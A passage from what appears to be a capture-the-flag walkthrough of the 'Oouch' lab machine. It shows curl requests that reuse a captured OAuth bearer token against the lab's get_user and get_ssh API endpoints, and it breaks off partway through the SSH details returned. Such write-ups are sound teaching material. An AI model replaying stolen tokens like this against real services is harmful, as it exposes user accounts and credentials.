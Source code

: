 

It is worth noting the `expires_in` value of ten minutes. I lost some
time enumerating the API when the token expired and I didn't realize it.
I can use the `refresh_token` to request a new `access_token` (I'll
leave that as an exercise for the reader).

### SSH as qtc

#### get_user

I still have the hint about `/api/get_user`, and it makes sense now that
I have an `access_token` to access qtc's data. I was able to find the
API pretty easily at `authorization.oouch.htb:8000/api/get_user`. In a
browser, it just returns a blank page. In Burp, I see it's a 403:



    HTTP/1.1 403 Forbidden
    Content-Type: text.md; charset=utf-8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0
    Vary: Authorization



I can add the `Authorization: Bearer [token]` header, and it works:



    root@kali# curl -s authorization.oouch.htb:8000/api/get_user -H "Authorization: Bearer gm05wp2kDWhSmS3QrZmdEqgvFGoEKD" | jq .
    {
      "username": "qtc",
      "firstname": "",
      "lastname": "",
      "email": "qtc@nonexistend.nonono"
    }



#### get_ssh

Obviously this isn't terribly useful information. I spent a while
fuzzing for additional parameters that might return the other
information entered into the signup form, the ssh key. Eventually, I
tried hitting a different endpoint, `/api/get_ssh`:



    root@kali# curl -s authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer gm05wp2kDWhSmS3QrZmdEqgvFGoEKD" | jq .
    {
      "ssh_server": "consumer.oouch.htb",
      "ssh_user": "qtc",